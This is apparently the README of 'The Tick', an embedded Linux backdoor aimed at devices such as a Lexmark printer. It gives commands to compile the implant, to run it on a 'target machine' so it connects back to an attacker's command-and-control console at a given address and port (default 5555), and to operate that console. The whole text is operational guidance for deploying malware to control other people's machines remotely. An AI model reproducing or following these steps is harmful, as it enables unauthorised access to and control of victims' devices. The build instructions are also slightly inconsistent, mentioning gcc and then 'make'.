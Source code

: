 # The Tick

A simple embedded Linux backdoor.


## Compiling

```
cd src
gcc -static ./*.h ./*.c -o ./ticksvc
```

Once the "make" command has run to completion, the compiled binary can be found at the "bin" folder. This is the binary you want to run on your target machine to control it remotely.

When cross-compiling for supported platforms, the dependency resolution and compilation is done automatically for you. Currently the only supported cross-compiling platform is the Lexmark CX310DN printer, but more devices will be added later. Consult the makefile for more details.

The command and control console is written in Python and therefore needs not be compiled.

## Installing

Obtaining persistence on the backdoor will depend heavily on the target platform, and therefore is not documented here.

On the target machine, run the backdoor binary with the following arguments:

```
./ticksvc ADDR PORT
```

Where "ADDR" and "PORT" must be replaced by the IP address and port where the command and console will be listening. The default port is 5555.

The command and control console requires no installation, but may have unresolved dependencies. Run the following command to ensure all dependencies are properly installed (note this does not need sudo):

```
pip install --upgrade -r requirements.txt
```

## Usage

To run the backdoor binary on the target platform, set the control server hostname and port as command line options. For example:

```
./ticksvc IP 5555
```

At the control server, you may want to run the console inside a GNU screen instance or similar:

```
sudo apt-get install screen
screen -S thetick ./thetick.py
```

That way you can detach from the console by pressing Control+A followed by D. You can return to the console later like this:

```
screen -r thetick
```

